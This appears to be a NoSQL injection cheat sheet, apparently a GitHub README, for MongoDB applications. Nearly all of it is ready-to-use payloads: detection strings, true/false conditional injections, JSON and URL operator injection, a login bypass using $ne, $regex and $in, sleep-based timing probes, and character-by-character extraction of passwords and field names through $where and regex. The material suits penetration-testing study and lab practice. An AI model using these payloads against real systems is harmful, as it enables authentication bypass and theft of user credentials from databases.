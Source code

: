 ### Basic operator difference between SQLi && NoSQLi
  1. `or` >> `||`
  2. `and` >> `&&`
  3. `-- -` >> `%00`
---
### Detecting NoSQLi Vulnerability
**For MongoDB Detection:**
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
**Causing syntax error in MongoDB**
```
'
```
**Escaping the syntax error in MongoDB**
```
\'
```
**Injecting in JSON Format**
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
**Others :**
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
### Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```
**Example with explanation :**

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.
  4. Same as 3.
### NoSQL operator injection

`$where` - Matches documents that satisfy a JavaScript expression.
<br>
`$ne` - Matches all values that are not equal to a specified value.
<br>
`$in` - Matches all of the values specified in an array.
<br>
`$regex` - Selects documents where values match a specified regular expression.
<br>
<br>
Details: [Portswigger](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

### Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
<br>
<br>
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.
<br>
<br>
If this doesn't work, you can try the following:
<br>
<br>
  `1.` Convert the request method from `GET` to `POST`.
  <br>
  `2.` Change the `Content-Type` header to `application/json`.
  <br>
  `3.` Add `JSON` to the `message body`.
  <br>
  `4.` Inject `query` operators in the `JSON`.
### MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
![Screenshot from 2024-07-12 03-55-31](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)
<br>
Note: We need to input atleast one valid credential to make a valid query.
<br>
If this doesn't work, you can try the following:

    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
### MongoDB Data Retrieving
Extracting Password:
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} >> For extracting password via operator
```
### Identifying field names
```
' && this.anything && 'a'=='b >> Confirming if there is a field name
' && this.username!=' >> Identifying field names [Note: If there is a username field exists, it will response with different type of message]
' && this['u'] && 'a'=='b >> Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```
### Operator Injection To Retrieving Unknown Data
```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
```
